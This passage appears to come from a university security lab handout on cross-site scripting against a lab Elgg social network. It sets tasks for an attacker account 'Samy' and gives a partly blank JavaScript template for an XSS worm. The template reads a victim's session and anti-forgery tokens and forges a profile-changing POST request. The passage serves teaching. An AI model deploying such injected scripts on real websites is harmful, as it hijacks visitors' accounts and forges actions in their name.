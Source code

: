 ```js
```

The above code should be placed in the "About Me" field of Samy's profile page.
This field provides two editing modes: Editor mode (default) and Text mode.
The Editor mode adds extra HTML code to the text typed into the field, while the Text mode does not.
Since we do not want any extra code added to our attack code, the Text mode should be enabled before entering the above JavaScript code.
This can be done by clicking on "Edit HTML", which can be found at the top right of the "About Me" text field.

#### Task 4.1

Carry out the attack to add Samy as a friend to the victim. Describe your strategy and provide supporting code/details.





#### Task 4.2

If the Elgg application only provided the Editor mode for the "About Me" field (i.e., you cannot switch to the Text mode), can you still launch a successful attack?

### Task 5: Modifying the Victim's Profile

The objective of this task is to modify the victim's profile when the victim visits Samy's page.
We will write an XSS worm to complete the task.
This worm does not self-propagate; in a later task we will make it self-propagating.

Similar to the previous task, we need to write malicious JavaScript code that forges HTTP requests directly from the victim's browser, without the intervention of the attacker.
To modify profile, we should first find out how a legitimate user edits or modifies their profile in Elgg.
More specifically, we need to figure out how the HTTP POST request is constructed to modify a user's profile.
(Again, any tool that helps with HTTP inspection is useful here.)
Once we understand how the modify-profile HTTP POST request is formatted, we can write JavaScript code to send out an identical HTTP request.
We provide template code that aids in completing the task.

```js
<script type="text/javascript">
window.onload = function(){
    // JavaScript code to access user name, user guid, Time Stamp __elgg_ts and Security Token __elgg_token
    var name="&name="+elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    // Construct your url.
    var sendurl=...;     //FILL IN

    // Construct the content of your request.
    var content=...;     //FILL IN

    // Send the HTTP POST request
    var samyGuid=...;    //FILL IN
    if (elgg.session.user.guid!=samyGuid)       // (1)
    {
        // Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
```